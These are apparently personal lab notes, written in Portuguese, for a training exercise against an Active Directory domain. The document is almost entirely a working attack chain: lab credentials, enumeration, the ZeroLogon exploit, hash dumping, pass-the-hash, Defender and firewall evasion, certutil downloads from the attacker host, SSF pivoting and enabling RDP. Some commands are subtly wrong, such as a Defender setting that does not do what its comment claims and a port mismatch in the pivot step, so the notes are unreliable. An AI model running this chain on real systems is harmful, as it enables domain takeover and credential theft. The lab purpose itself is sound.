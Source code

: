 OBJETIVO É PEGAR A FLAG NA MÁQUINA 192.168.200.252 NO ARQUIVO PROOF.TXT


USUÁRIOS E SENHAS DO LAB:

Usuário: offsec\Administrator (Domain Admin)
Senha: #Admin@1102

Usuário: offsec\martin (Domain Account)
Senha: M@rt1n22

Usuário: offsec\julia (Domain Account)
Senha: P@ssw0rd

Usuário: offsec\kevin (Domain Account)
Senha: Student@123

Usuário: .\student (Local Account)
Senha: $masterPass!

ip a (O IP é 192.168.200.133)

arp-scan -local

nmap -sn 192.168.200.0/24 --exclude 192.168.200.1,192.168.200.133

ping 192.168.200.252

ping 192.168.200.253

nmap -Pn -sC -sV -v -n --open 192.168.200.252-253

crackmapexec smb 192.168.200.253

#Host 192.168.200.253 tem o LDAP rodando, sinal de que é um AD, mostra 

ENUMERAÇÃO LDAP
nmap -Pn -v -n -p 389 192.168.200.253 --script ldap-rootdse # obter informação sobre esquema do AD
nmap -Pn -v -n -p 389 192.168.200.253 --script "ldap* and not brute"


ENUMERAÇÃO DNS
dig a offsec.corp @192.168.200.253
dig ns offsec.corp @192.168.200.253
dig ptr offsec.corp @192.168.200.253
dig any offsec.corp @192.168.200.253
dig axfr offsec.corp @192.168.200.253
dnsrecon -r 192.168.200.0/24 -n 192.168.200.253 # DNS reverso para todos os IPs, -r faixa e -n o servidor DNS


ENUMERAÇÃO NETBIOS

135	TCP	MS-RPC endpoint mapper
137	UDP	NetBIOS Name Service
138	UDP	NetBIOS Datagram Service
139	TCP	NetBIOS Session ServiceW
445	TCP	SMB Protocol

nmblookup -A 192.168.200.253
nbtscan 192.168.200.253
nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n 192.168.200.253

<1C> DC
<00> Estação

ENUMERAÇÃO SMB
smbmap -H 192.168.200.253 # Enumera compartilhamentos


rpcclient -U "" -N 192.168.200.253
netshareenum
netshareenumall

enum4linux 192.168.200.253

nmap -Pn -v -n -p 445 192.168.200.253 --script smb-vuln*
nmap -Pn -v -n -p 445 192.168.200.253 --script smb-vuln* -d

crackmapexec smb 192.168.200.253 --shares
crackmapexec smb 192.168.200.253 --users
crackmapexec smb 192.168.200.253 --pass-pol

PROCURAR POR VULNERABILIDADES
crackmapexec smb 192.168.200.253 -L
crackmapexec smb 192.168.200.253 -M spooler
crackmapexec smb 192.168.200.253 -M ms17-010
crackmapexec smb 192.168.200.253 -M zerologon


impacket-psexec # Faz upload de um binário no alvo e se o alvo estiver com proteção será alertado e bloqueado

ZERO LOGON SCRIPTS (https://github.com/dirkjanm/CVE-2020-1472.git)
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472
python3 cve-2020-1472-exploit.py offsec-ad 192.168.200.253

EXTRAIR HASHES
impacket-secretsdump -just-dc OFFSEC/OFFSEC-AD\$@192.168.200.253 # $ pq é sem senha

crackmapexec smb 192.168.200.253 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2' --shares
crackmapexec smb 192.168.200.253 -u administrator -H 'f2535a22448907ddffad7bddef5c53e2' --users
crackmapexec smb 192.168.200.253  -u administrator -H 'f2535a22448907ddffad7bddef5c53e2' --pass-pol

crackmapexec smb 192.168.200.253  -u administrator -H 'f2535a22448907ddffad7bddef5c53e2' -x whoami

Pode fazer a pratica com psexec, mas nesse momento sem desabilitar a proteção vai ser detectado pelo defender
impacket-psexec -hashes "aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2" "offsec.corp/administrator"@192.168.200.253

EXECUTAR COMANDOS NO SERVIDOR AD UTILIZANDO WMI PARA O WINDOWS DEFENDER NÃO PEGAR 
impacket-wmiexec -hashes "hash_administrator" "dominio/usuario"@ip comando
impacket-wmiexec -hashes "aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2" "offsec.corp/administrator"@192.168.200.253 hostname
impacket-wmiexec -hashes "aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2" "offsec.corp/administrator"@192.168.200.253 "sc query WinDefend" # Identificar se o Defender está habilitado

evil-winrm -H 'f2535a22448907ddffad7bddef5c53e2' -u administrator -i 192.168.200.253 # COM ASPAS SIMPLES DEMORA MAIS
evil-winrm -H "f2535a22448907ddffad7bddef5c53e2" -u administrator -i 192.168.200.253 # COM ASPAS DUPLAS EU PERCEBO QUE É MAIS RÁPIDO

# DESABILITA O MONITORAMENTO
get-mppreference | findstr Monitoring
set-mppreference -disablerealtimemonitoring $false

# AGORA O PSEXEC VAI FUNCIONA
impacket-psexec -hashes "aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2" "offsec.corp/administrator"@192.168.200.253

ping 192.168.200.252

DESABILITAR O FIREWALL DO WINDOWS PARA FACILITAR MAIS A VIDA OU ABRE UMA PORTA 
netsh advfirewall set allprofiles state off


Utilizar o script powershell para fazer portscanner diretamente do windows AD 
wget https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4PortScanner/main/Scripts/IPv4PortScan.ps1

Abre a porta no kali para transferir o arquivo
python3 -m http.server 80

# MOSTRAR O PROJETO https://lolbas-project.github.io/

Na máquina do atacante utiliz script powershell para fazer o download - OLHAR O SITE LOLBAS
certutil.exe -urlcache -split -f http://192.168.200.133/IPv4PortScan.ps1 c:\IPv4PortScan.ps1
OU
powershell -c (new-object system.net.webclient).DownloadFile("http://192.168.200.133/IPv4PortScan.ps1", "c:\IPv4PortScan.ps1")

EXECUTAR O PORTSCANNER
cd /
powershell -c '.\IPv4PortScan.ps1 -computer 192.168.200.252 -StartPort 445 -EndPort 445 '

cd /

FAZER PIVOTING COM SSF (https://securesocketfunneling.github.io/ssf/#download) baixa o binário para o windows e para linux e depois transfere par ao Windows alvo o arquivo zip



certutil.exe -urlcache -split -f http://192.168.200.133/ssf_win.zip ssf_win.zip 

EXTRAIR O ARQUIVO ZIPADO E ENTRA NA PASTA
powershell -c "Expand-Archive c:\ssf_win.zip -Destinationpath c:\ssf"
cd ssf
ssf-win-x86_64-3.0.0

NO ACTIVE DIRECTORY ABRE UMA PORTA PARA CONEXÃO, É COMO SE FOSSE UM SERVIDOR, MAS NO EVIL-WINRM NÃO EXECUTA, FAÇA O PROCESSO PELO IMPACKET-WMIEXEC
.\ssfd.exe -p 1111

NO KALI LINUX FECHA A CONEXÃO COMO CLIENT
/ssf -D 2222 -p 1111 192.168.200.253 # CONECTA NA PORTA 1111 DO SERVIDOR E ABRE A PORTA 5555 DO LADO DO KALI PARA FECHAR A CONEXÃO


EXECUTA O WMIEXEC USANDO PROXYCHAINS NO WINDOWS 10 PQ O DEFENDER ESTÁ HABILITADO E TENTA SE AS CREDENCIAIS DO ADMINISTRADOR VAI FUNCIONAR
proxychains -q impacket-wmiexec -hashes "aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2" "offsec.corp/administrator"@192.168.200.252 hostname

proxychains -q impacket-wmiexec -hashes "aad3b435b51404eeaad3b435b51404ee:f2535a22448907ddffad7bddef5c53e2" "offsec.corp/administrator"@192.168.200.252


dir
type proof.txt

where /r c: proof.txt
ou
dir /s proof.txt

type c:\proof.txt

Salva o conteúdo do proof.txt no arquivo hashdump e executa o john, a senha é qwerty
john hashdump

ENABLE RDP FROM POWERSHELL
powershell -c 'Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -name "fDenyTSConnections" -value 0'
